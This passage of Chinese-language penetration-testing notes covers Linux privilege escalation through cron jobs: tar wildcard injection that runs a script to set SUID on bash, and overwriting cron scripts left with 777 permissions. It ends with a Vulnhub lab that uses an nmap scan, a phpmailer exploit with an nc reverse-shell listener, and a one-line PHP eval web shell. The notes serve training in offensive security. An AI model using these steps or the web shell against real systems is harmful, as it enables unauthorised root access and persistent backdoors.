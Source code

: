 攻击者可以在用户目录下创建一个同名文件

#第二种:命令问题(一般是本地提权)

利用通配符配合命令参数自定义命令实现提权

不安全定时任务备份命令

    cd /home/undead/script; tar czf /tmp/backup.tar.gz *

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawNdSh3OZdlKLs2xSHIqhaSseBGHc198EicrUELPGkOcHQFSVV7hmVhRg%2F640%3Fwx_fmt%3Dpng)

将这两个文件放到要打包的目录下

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawe7WIib46GagawZ5tG58xtxtDlmTboIaZmfecd71Lic8FYvVrbIfWS3TQ%2F640%3Fwx_fmt%3Dpng)

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawCb00Pf4eibEJgx4Y1ZDuwUL3xwCQse9YJXFjJgRsCibNHwQsCdibjTsYQ%2F640%3Fwx_fmt%3Dpng)

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawl7DdSLMgkfuAge7rTbghdVDXicoBw9OUick9ZMUL7NmJU0ibwpQxlaVbw%2F640%3Fwx_fmt%3Dpng)

cd /home/undead/script; tar czf /tmp/backup.tar.gz \* 命令的\*会接受文件名,就变成了

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawRiaaA8wkfZh10Bibl552X2hjkQjTXHBrlwKKwRU2OwC8pwibl2PNAPrxA%2F640%3Fwx_fmt%3Dpng)

执行了test.sh

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawFLBj7rRVdiaa9icSCP6Jok3oxyHqic3qibpLr5J2nPIoyOhqfp8kYbKIpA%2F640%3Fwx_fmt%3Dpng)

suid提权,执行bash就有了root权限

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawVzia9zHDSF3qibMhGOV3pKeOl02A9iaibEKQjib7OnSGNpstuT84LMOU2hQ%2F640%3Fwx_fmt%3Dpng)

如果不是tar命令,而是其他命令,则要看其他命令是否支持调用执行

#第三种:权限问题

利用不安全的权限分配操作导致的定时任务覆盖

chmod 777 775等 所有者 组 其他成员说明

一般为管理员为定时任务分配了不当的权限,例如777,导致普通用户可以对定时任务进行覆盖,从而提权

判断漏洞:ls -al 目录

**Linux提权第三方服务数据库MYSQL\_UDF-Vulnhub**

Vulnhub某靶机-探针IP及端口-利用漏洞获取web权限-信息收集-查看数据库配置文件-利用Mysql提权Linux(Mysql版本区别同Windows)

#探针IP及端口

nmap 192.168.76.0/24

#利用phpmailer漏洞进行修改并反弹

python D:/Myproject.40974.py nc -lvp 4444

#写入后⻔利用菜刀连接方便操作

echo '<?php eval($\_POST\[x\]);?>' >1.php
